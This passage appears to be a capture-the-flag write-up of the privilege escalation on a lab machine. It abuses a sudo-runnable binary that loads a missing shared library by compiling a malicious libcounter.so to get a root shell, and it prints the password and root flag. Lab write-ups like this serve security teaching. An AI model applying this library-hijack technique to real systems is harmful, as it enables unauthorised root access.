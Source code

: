 ```
$ sudo /usr/bin/stock
Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option:
```

Looking through the options we can view the stock file, edit the stock entries, and exit the program.

None of the options seem to have any capabilities, so lets run `strace /usr/bin/stock` to look at what the binary is calling.

After entering the password an entry of interest is seen:

`openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)`

Its referencing a file that doesn't exist, we could abuse this with sudo for a shell! I used the C shell file from [here](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics#sudo-ld_preload).

```
$ gcc -fPIC -shared -o libcounter.so libcounter.c -nostartfiles
$ mv libcounter.so /home/rektsu/.config/
```

Running `sudo /usr/bin/stock` then entering the password gives us a root shell!

```
(remote) rektsu@zipping:/tmp$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/tmp# cat /root/root.txt
107cbf13ead882d8c94a466997b45138
```

Giving us our root flag! <mark>107cbf13ead882d8c94a466997b45138</mark>

Success!
